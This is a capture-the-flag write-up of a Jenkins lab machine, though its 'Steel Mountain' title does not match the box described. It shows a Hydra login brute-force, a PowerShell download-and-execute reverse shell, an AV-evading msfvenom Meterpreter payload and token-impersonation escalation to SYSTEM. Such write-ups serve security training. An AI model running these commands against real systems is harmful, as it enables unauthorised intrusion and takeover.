






# Steel Mountain

## Summary

Jenkins is used to create continuous Integration/continuous development (CI/CD) pipelines that allow developers to deploy code once changes are made. I used the [Invoke-PowerShellTcp.ps1 ](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script from Nishang to grab initial access and utilized token impersonation to gain privileged access.

## Enumeration

I ran Nmap on the machine and used the `-Pn` flag as the host was down initially. 

```
nmap $machine_IP -Pn -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 22:22 EST
Nmap scan report for $machine_IP
Host is up (0.27s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Navigating to the webpage on Port 80 resulted in an empty landing page


Navigating to the webpage on Port 8080 rendered a Jenkins login page



Bruteforcing with Hydra requires valid parameters for URL, Form Parameters and login error message. To achieve this I ran an authentication request through Hydra. Having become much more familiar with Burp Suite since completing this room, I would default to using Burp Intruder for bruteforcing and fuzzing login fields. However, in this case, I was able to successfully do this via Hydra.





```
hydra -s 8080 $machine_IP http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L user.txt -P password.txt -t 20 -w 30
```


After logging into Jenkins, I am presented with the dashboard. 


Navigating to the `Configure` section of the project and moving to the `build` directory shows a method of executing a reverse shell. I ran the `whoami` command as a POC and receive a successful result. 



## User Foothold

I use the `Invoke-PowerShellTcp.ps1` script from the Nishang Framework to get a reverse shell on the victim's machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://$machine_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $THM_IP -Port 4444
```




Meanwhile, we can see that the `Invoke-PowerShellTcp.ps1` file was picked up from the Python Simple HTTP Server


Meanwhile, we also see a reverse connection and get a reverse shell. We are also able to grab the `user.txt` flag. 




## Switching Shells - Optional

The reverse shell we have received is a standard Windows CMD shell. Having a meterpreter shell provides us with increased functionality, such as, hash dumping, easy file uploads and downloads and token impersonation, which is relevant to this box, among others. While it is perfectly possible to continue and complete the rest of the box with a standard shell, I will be switching over to a Meterpreter shell for the above-mentioned reasons. 

I start off by generating an encoded x86-64 TCP Meterpreter payload through Msfvenom. Payloads are encoded to ensure they're transmitted correctly and evade anti-virus (AV) solutions.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

I am able to move this generated payload to the victim machine on the existing reverse shell.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$machine_IP:8000/shell.exe','shell.exe')"
```

In preparation, I ensure that the listening handler is setup in Metasploit.

```
msf6 exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost $THM_IP
lhost => $THM_IP
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on $THM_IP:9999 
[*] Sending stage (175174 bytes) to $machine_IP
[*] Meterpreter session 1 opened ($THM_IP:9999 -> $machine_IP:49238 ) at 2022-02-01 00:58:17 -0500

meterpreter > getuid
Server username: alfred\bruce
meterpreter >
```

Meanwhile, I started the shell - `Start-Process "shell.exe"`

## Privilege Escalation
Now that we have initial access, we can use **token impersonation** to gain system access. Windows uses tokens to ensure that accounts have the appropriate privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by `LSASS.exe`

This access token consists of 

1. User SID's (Security Identifier)
2. Group SID's
3. Privileges

There are 2 types of access tokens

1. Primary Access Tokens - those associated with a user account that are generated on log on
2. Impersonation tokens - they allow a particular process (or thread in a process) to gain access to resources using the token of another (user/client) process

Impersonation tokens have different levels

1. SecurityAnonymous - current user/client cannot impersonate another user/client
2. SecurityIdentification - current user/client can get the identity and privileges of a client, but cannot impersonate the client
3. SecurityImpersonation - current user/client can impersonate the client's security context on the local system
4. SecurityDelegation - current user/client can impersonate the client's security context on the remote system

Security Context is a data structure that contains user's security information

The privileges of an account (either given to the account when created or inherited from a group) allow a user to carry out particular actions

### List of commonly abused privileges

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

I am able to view all privileges using `whoami /priv`


This indicates that the `SeDebugPrivilege` and `SeImpersonatePrivilege` privileges are enabled. With `load incongnito` and `list_tokens -g` I am able to view which tokens are available and use the `impersonate_token “BUILTIN\Administrators”` command to impersonate the Administrators token.

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

**Warning** - something to note, despite having a higher privileges token, at times you still might not have the permissions of the privileged user. This is due to how Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can and cannot do. However, I can now escalate processes. I run the `ps` command to see what processes are running as `NT AUTHORITY\SYSTEM` and `spoolsv.exe` was one of the results. I am able to migrate to `spoolsv.exe` with the following command - `migrate <PID>`

Then I navigate to `C:\Windows\system32\config` where I was able to grab the root flag.

```
meterpreter > cat root.txt 
dff#######################
```